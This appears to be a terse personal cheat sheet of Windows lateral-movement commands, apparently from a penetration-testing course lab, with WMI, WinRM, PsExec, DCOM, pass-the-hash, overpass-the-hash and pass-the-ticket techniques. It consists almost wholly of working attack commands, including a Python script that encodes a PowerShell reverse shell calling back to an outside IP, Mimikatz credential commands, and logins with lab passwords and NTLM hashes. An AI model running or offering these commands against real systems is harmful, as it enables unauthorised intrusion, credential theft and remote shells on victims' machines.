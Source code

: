 ### WMI and WinRM

Creating a process

wmic /node:192.168.210.72 /user:jen /password:Nexus123! process call create "calc"

```
$username = 'leon';
$password = 'HomeTaping199!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.204.73 -Credential $credential -SessionOption $Options 
$command = 'calc';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

encode.py

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

winrs -r:web04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
Enter-PSSession 1
```

### PSExec

./PsExec64.exe -i  \\FILES04 -u ccooia.comrp\jen -p Nexus123! cmd

### Pass The Hash

/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73

### Overpass the Hash
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell

.\PsExec.exe \\files04 cmd

### Pass the Ticket

sekurlsa::tickets /export

kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

### DCOM

```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```


crackmapexec smb 10.10.132.142 -u celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd
evil-winrm -i 192.168.250.153 -u mary.williams -H 9a3121977ee93af56ebd0ef4f527a35e
